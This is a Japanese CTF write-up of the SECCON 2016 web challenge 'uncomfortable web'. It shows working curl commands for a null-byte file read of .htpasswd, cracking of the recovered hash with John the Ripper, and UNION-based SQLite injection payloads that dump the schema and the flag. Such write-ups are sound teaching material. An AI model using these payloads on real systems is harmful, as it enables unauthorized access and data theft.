 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/12/11/seccon-2016-online-uncomfortable-web/
date: "2016-12-11T22:52:05+09:00"
tags: [ "ctf", "writeup", "seccon", "web", "sql-injection", "null-byte-attack", "htaccess", "htpasswd", "sqlite" ]
"target_url": [ "https://score-quals.seccon.jp/question/1707d3814069dec8ca49947830e3a51fdff4714b" ]
---
```


# SECCON 2016 Online CTF: uncomfortable web

本番ではそもそも開かず。生きてるweb問は貴重なので早めに復習。

## problem

適当な言語でscriptをuploadすると、remoteで実行してくれるサービス。
そこから繋がる `http://127.0.0.1:81/` にflagがあるので探す問題。

## solution

まず、scriptをwebからuploadして確認するのは煩雑である。以下のようにする。

``` sh
#!/bin/bash
atexit() { [ -n $tmpfile ] && rm -f "$tmpfile" ; }
tmpfile=`mktemp --suffix=.sh`
trap atexit EXIT
trap 'trap - EXIT; atexit; exit -1' SIGHUP SIGINT SIGTERM
cat <<EOF > $tmpfile
#!/bin/sh
echo
echo --------
echo
echo
echo

curl http://127.0.0.1:81/

echo
echo
echo
echo --------
echo
EOF
curl http://uncomfortableweb.pwn.seccon.jp/\? -F file=@$tmpfile | sed 's/&lt;/</g ; s/&gt;/>/g ; s/&quot;/'\''/g ; s/&amp;/\&/g'
```


`http://127.0.0.1:81/`ではディレクトリが見える。

```
Index of /

[ICO]           Name            Last modified   Size            Description
[DIR]           authed/         28-Nov-2016 10:51               -                
[TXT]           select.cgi      28-Nov-2016 10:08               612              
Apache Server at 127.0.0.1 Port 81
```

`/authed`にはbasic認証がある。
`/select.cgi`は以下のような出力をする。

``` html
<html>
<body>
<form action='?' method='get'>
<select name='txt'>
<option value='a'>a</option>
<option value='b'>b</option>
</select>
<input type='submit' vaue='GO'>
</form>
</body></html>
```

例えば `curl http://127.0.0.1:81/select.cgi?txt=a` とすると以下のように、`/authed/${txt}.txt`を読んでくれる。

``` html
<html>
<body>
<form action='?' method='get'>
<select name='txt'>
<option value='a'>a</option>
<option value='b'>b</option>
</select>
<input type='submit' vaue='GO'>
</form>
<hr>
authed/a.txt<br>
<br>
                       /$$     /$$                       /$$       /$$            /$$                /$$    <br>
                      | $$    | $$                      | $$      /$$/           | $$               | $$    <br>
  /$$$$$$  /$$   /$$ /$$$$$$  | $$$$$$$   /$$$$$$   /$$$$$$$     /$$//$$$$$$    /$$$$$$  /$$   /$$ /$$$$$$  <br>
 |____  $$| $$  | $$|_  $$_/  | $$__  $$ /$$__  $$ /$$__  $$    /$$/|____  $$  |_  $$_/ |  $$ /$$/|_  $$_/  <br>
  /$$$$$$$| $$  | $$  | $$    | $$  \ $$| $$$$$$$$| $$  | $$   /$$/  /$$$$$$$    | $$    \  $$$$/   | $$    <br>
 /$$__  $$| $$  | $$  | $$ /$$| $$  | $$| $$_____/| $$  | $$  /$$/  /$$__  $$    | $$ /$$ &gt;$$  $$   | $$ /$$<br>
|  $$$$$$$|  $$$$$$/  |  $$$$/| $$  | $$|  $$$$$$$|  $$$$$$$ /$$/  |  $$$$$$$ /$$|  $$$$//$$/\  $$  |  $$$$/<br>
 \_______/ \______/    \___/  |__/  |__/ \_______/ \_______/|__/    \_______/|__/ \___/ |__/  \__/   \___/  <br>
<br>
<br>
</body></html>
```

ここでnull-byte attackができて、`curl http://127.0.0.1:81/select.cgi?txt=a.txt%00`で上と同じ結果が得られる。

これを使って`/authed`の認証情報を取りにいく。つまり`.htaccess` `.htpasswd`を読む。
`curl http://127.0.0.1:81/select.cgi?txt=.htpasswd%00` とすると

```
keigo:LdnoMJCeVy.SE
```

と得られる。passwordは暗号化されているが、これは John the Ripper で破れる。(たぶんbruteforceしてる。)

``` sh
$ cat .htpasswd
keigo:LdnoMJCeVy.SE

$ john .htpasswd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (keigo)
1g 0:00:00:00 100% 2/3 33.33g/s 30733p/s 30733c/s 30733C/s orange..horses
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/` として見る。
以下のように並んでいる。

```
[DIR]           Parent Directory                                -                
[TXT]           1.cgi           28-Nov-2016 11:41               750              
[TXT]           2.cgi           28-Nov-2016 11:41               750              
[TXT]           3.cgi           28-Nov-2016 11:41               750              
[TXT]           4.cgi           28-Nov-2016 11:41               750              
[TXT]           5.cgi           28-Nov-2016 11:41               750              
[TXT]           6.cgi           28-Nov-2016 11:41               750              
[TXT]           7.cgi           28-Nov-2016 11:41               750              
...
[TXT]           98.cgi          28-Nov-2016 11:41               750              
[TXT]           99.cgi          28-Nov-2016 11:41               750              
[TXT]           100.cgi         28-Nov-2016 11:41               750              
```

どれも以下のようなもので、

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
</body></html>
```

`http://127.0.0.1:81/authed/sqlinj/1.cgi?no=4822267938`とすると以下のように検索結果が返る。

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: 4822267938<br>
ISBN-13: 978-4822267933<br>
PUBLISH: 2016/2/19<p>
</body></html>
```

`1.cgi`には刺さらないが、$100$ある内のいずれかにSQLiが刺さると踏んで、

``` sh
for i in \`seq 100\` ; do
    curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/\$i.cgi?no=$(urlencode " ' or 1 = 1 -- ")
done
```

とすると`72.cgi`がそれ。

適当にsqliteと判断して`sqlite_master`を見る。
これは`by KeigoYAMAZAKI`という作問者情報からでも分かるらしい。

``` sh
curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/72.cgi?no=$(urlencode " ' union select type, name, sql from sqlite_master -- ")
```

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: table<br>
ISBN-13: books<br>
PUBLISH: CREATE TABLE books (isbn10,isbn13,date)<p>
ISBN-10: table<br>
ISBN-13: f1ags<br>
PUBLISH: CREATE TABLE f1ags (f1ag)<p>
</body></html>
```

よって

``` sh
curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/72.cgi?no=$(urlencode " ' union select f1ag, 1, 1 from f1ags -- ")
```

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: SECCON{I want to eventually make a CGC web edition... someday...}<br>
ISBN-13: 1<br>
PUBLISH: 1<p>
</body></html>
```
